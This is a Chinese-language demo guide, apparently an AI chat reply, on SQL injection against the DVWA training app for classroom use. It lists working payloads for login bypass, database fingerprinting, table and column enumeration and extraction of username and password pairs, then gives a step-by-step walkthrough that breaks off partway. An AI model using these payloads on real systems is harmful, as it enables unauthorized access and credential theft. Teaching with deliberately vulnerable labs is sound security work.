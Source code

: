 好的！以下是为你优化过的**SQL 注入操作展示文档**，结构更清晰，语言更简洁，便于**课堂演示、报告写作或复习使用**。我也加入了**小标题、关键点提示符号、演示建议**，帮助你当场讲解或截图。

---

# 🧪 DVWA SQL 注入演示操作文档（优化版）

---

## 🧱 一、基础 SQL 注入（Basic / Union-Based）

适用于有明显**页面回显**的模块，例如：
- `SQL Injection`
- 登录页（Login）
- 搜索功能

---

### 💣 常用 Payload（修正版 ✅）

> ⚠️ 注释必须使用空格：`-- `，否则 MariaDB 会报错！

| 类型 | Payload | 功能说明 |
|------|---------|----------|
| 登录绕过 | `' or 1=1 -- ` | 绕过登录验证（可用于 login 页面） |
| 显示数据库版本 | `' UNION SELECT null, @@version -- ` | 获取 MySQL/MariaDB 版本信息 |
| 当前数据库名 | `' UNION SELECT null, database() -- ` | 查看当前使用的数据库 |
| 当前连接用户 | `' UNION SELECT null, user() -- ` | 显示当前数据库登录用户 |
| 列出表名 | `' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() -- ` | 列出当前数据库下所有表 |
| 列出字段名 | `' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' -- ` | 查看表字段（需改成实际表名） |
| 提取用户名密码 | `' UNION SELECT null, concat(username, ':', password) FROM users -- ` | 提取数据（字段需确认） |

---

### ✅ 推荐演示步骤（SQL Injection 模块）

1. 进入 DVWA，点击左侧菜单：**`SQL Injection`**
2. 在输入框测试基本注入：
   ```
   ' or 1=1 -- 
   ```
   页面正常返回数据，说明注入成功
3. 接着执行：
   ```sql
   ' UNION SELECT null, database() -- 
   ```
   成功显示数据库名（如：`dvwa`）

4. 获取表名：
   ```sql
   ' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() -- 
   ```
